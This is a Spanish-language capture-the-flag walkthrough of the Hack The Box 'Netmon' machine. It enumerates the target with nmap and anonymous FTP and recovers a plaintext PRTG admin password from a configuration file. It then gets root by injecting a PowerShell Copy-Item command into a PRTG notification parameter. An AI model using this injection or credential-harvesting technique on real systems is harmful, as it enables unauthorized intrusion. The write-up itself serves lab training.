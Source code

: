 ## HTB-Netmon
- Maquina: Windows
- Level: Easy
- IP: 10.10.10.152

## Herramientas a utilizar:

- nmap
- 

```
nmap -sC -sV -o scan_netmon.txt 10.10.10.152
```
|PORT|STATE SERVICE|
|---|---|
|21/tcp|    open  ftp
|135/tcp|   open  msrpc
|139/tcp|   open  netbios-ssn
|445/tcp|   open  microsoft-ds

Veremo que el puerto 21 FTP esta abierto y empesaremos por en el.
```
ftp 10.10.10.152
user: anonymous
pass: anonymous
```

Ahora solo debemos enumerar 
```
cd Users\Public
```
Veremos nuestra primera flag user.txt la voy a descargar 
```
get user.txt.
```


Ahora para encontrar la flag del root, debemos probar el puerto 80
```
http://10.10.10.152
```
Tenemos web que nos pide usuario y pass. por lo que seguiremos enumerando
Volvemos otra vez utilizaremos el ftp y al ir a la siguiente ruta
```
ftp 10.10.10.152
user: anonymous
pass: anonymous
cd /programdata
cd Paessler\PRTG Network Monitor” 
```

Aqui descargaremos el archivo `PRTG Configuration.dat` .
```
get PRTG Configuration.dat
```

Abriremos el archivo `PRTG Configuration.dat` entre todo lo que contiene la siguiente linea es lo que nos debe llamar a la atencion: `<!– User: prtgadmin –> PrTg@dmin2018.”` 

Luego solo debemos probar el users/pass

>Probé esta contraseña con el usuario prtgadmin en la página de inicio de sesión, pero no funcionó.
Despues de probar todas las posible convinaciones del passwors logre acceder cambiando el año **PrTg@dmin2018** por **PrTg@dmin`2019`**

Ahora existen varios metodos para extrer la root, Pero como es constumbre HTB de poner la Flag en el Desktop del Adminsitrador. `"C:\Users\Administrator\Desktop\root.txt`

Haremos lo siguiente para extraer nuestra Flag.
1. Click **Setup.**
2. Click “Notifications” in **Account Settings.**
3. Click **Add new notification.**
4. Habilitar **Execute Program.**
5. Select **Demo exe notification - outfile.ps1” as the “Program File.**
6. Enter `test.txt`; `Copy-item "C:/Users/Administrator/Desktop/root.txt"` -Destination `"C:/Users/Public/root.txt"` as the **Parameter.**
7. Then, switch **Notification Summarization** to **Always notify ASAP, never summarize.**
8. **Save** the notification.
9. Click **Send test notification.**

Ahora solo debemos volver por el ftp he ir a la siguiente ruta
```
ftp 10.10.10.152
cd /programdata
cd Users\Public
```

Aqui encontraremos nuestra Flag de root.txt 
